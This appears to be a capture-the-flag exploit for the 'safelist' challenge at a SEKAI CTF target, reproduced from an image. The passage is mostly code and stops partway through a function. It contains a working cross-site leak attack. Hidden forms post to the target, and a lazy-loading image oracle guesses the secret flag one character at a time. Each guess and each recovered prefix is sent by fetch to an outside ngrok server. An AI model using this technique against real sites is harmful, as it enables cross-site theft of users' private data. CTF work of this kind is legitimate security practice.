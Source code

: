 ```html
<form id=f action="http://localhost:1234/create" method="POST" target="_blank">
<input id=inp name="text" value="">
</form>

<form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
<input id=inp2 name="index" value="">
</form>
<script>
let flag = 'SEKAI{'
const TARGET = 'https://safelist.ctf.sekai.team'
f.action = TARGET + '/create'
f2.action = TARGET + '/remove'

const sleep = ms => new Promise(r => setTimeout(r, ms))
const send = data => fetch('http://server.ngrok.io?d='+data)
const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

// start exploit
let count = 0
setTimeout(async () => {
let L = 0
let R = charset.length - 1
while( (R-L)>3 ) {
let M = Math.floor((L + R) / 2)
let c = charset[M]
send('try_' + flag + c)
const found = await testChar(flag + c)
if (found) {
L = M
} else {
R = M - 1
}
}

// fallback to linear since I am not familiar with binary search lol
for(let i=R; i>=L; i--) {
let c = charset[i]
send('try_' + flag + c)
const found = await testChar(flag + c)
if (found) {
send('found: '+ flag+c)
flag += c
break
}
}

}, 0)

async function testChar(str) {
return new Promise(resolve => {
/*
For 3350, you need to test it on your local to get this number.
The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
If starts with "A", the image should be loaded because it's in the threshold.
*/
inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
f.submit()

setTimeout(() => {
run(str, resolve)
}, 500)
```